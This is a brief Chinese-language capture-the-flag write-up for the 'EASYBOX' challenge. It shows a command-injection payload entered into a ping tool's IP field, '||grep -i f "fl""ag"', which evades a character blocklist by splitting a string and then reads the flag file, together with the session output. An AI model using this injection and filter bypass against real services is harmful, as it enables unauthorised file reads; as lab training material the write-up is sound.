 ```yaml
---
title: DASCTF月赛 - EASYBOX
date: 2023/12/3 12:00:00
tags:
    - noob
---
```


From CBCTF x DASCTF

## 文件分析

下载`easybox`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

pingCommand虽然ban了很多字符，但是我们仍可以通过拼接字符串来绕过sh, cat和flag

通过||操作符忽略错误继续执行；  
先ls /bin看看有什么可以利用的程序，发现有grep；  
grep同样可以打印文件；  
"fl""ag"可以把flag拼起来；  
最后用catCommand查看`result.txt`就可以了

## EXPLOIT

```
nc node4.buuoj.cn 26927
 _____    _    ______   ______   _____  __
| ____|  / \  / ___\ \ / / __ ) / _ \ \/ /
|  _|   / _ \ \___ \\ V /|  _ \| | | \  /
| |___ / ___ \ ___) || | | |_) | |_| /  \
|_____/_/   \_\____/ |_| |____/ \___/_/\_\
Canary value saved to canary.txt.
Welcome to the EASYBOX
Please enter your name: yes
Hello! yes
yes@EASYBOX:/home/ctf$ PING
Enter an IP address: ||grep -i f "fl""ag"
sh: 1: ping: not found
Ping result has been saved in /tmp/result.txt
yes@EASYBOX:/home/ctf$ CAT
Enter the filename to view: result.txt
DASCTF{faf97940-0fc1-40af-a539-2ac02898e155}

yes@EASYBOX:/home/ctf$ EXIT
Exiting the program...
```

Done.
